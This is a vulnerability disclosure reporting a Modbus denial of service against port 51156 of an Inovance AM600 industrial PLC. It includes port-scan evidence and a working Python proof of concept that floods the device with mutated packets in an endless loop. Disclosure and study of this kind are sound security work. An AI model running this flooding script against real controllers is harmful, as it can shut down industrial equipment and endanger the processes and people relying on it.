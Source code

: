 # Summary
There is a denial of service vulnerability in port 51156 of Inovance AM600 PLC.An attacker can send a large number of modbus protocol data packets to cause the PLC to crash.

This "crash" did not cause the device to crash, but closed the originally open port.
# Details
Connectivity test of the device:
![image](https://github.com/user-attachments/assets/ed1c3c11-316d-42c0-b5f5-2c14a7f6375f)

Nmap scans device ports:![image](https://github.com/user-attachments/assets/4076b32b-0c57-4e88-b15e-afe1cba75581)

You can see that port 51156 is open.

Then we run the script:![image](https://github.com/user-attachments/assets/1a9d6314-63ff-4557-af09-5ef130acee8f)



After a while, we scan the port with Nmap and find:![image](https://github.com/user-attachments/assets/4b2955f5-8592-476c-a272-28b05e5e3779)



Of the **7** ports that were originally open, only **3** are left now, and **mbap port 502** has also been closed.

# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def Change(data: bytes):
    l = len(data)
    import random
    pos = random.randint(0, l - 1)
    Fs = [F1, F2, F3, F4]
    f = random.randint(0, 3)
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "00 01 00 00 00 06 01 03 00 00 00 0a"
ori = bytes.fromhex(ori.replace(" ", ""))
queue = []

queue.append(ori)

MAX_LEN = 65536
cur = 0
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(("192.168.1.88",51156))
            s.send(now)
            s.close()
            import time
            # time.sleep(0.1)
        except:
            print()
            print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
            
    import time
    cur = (cur + 1) % MAX_LEN
```
# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0
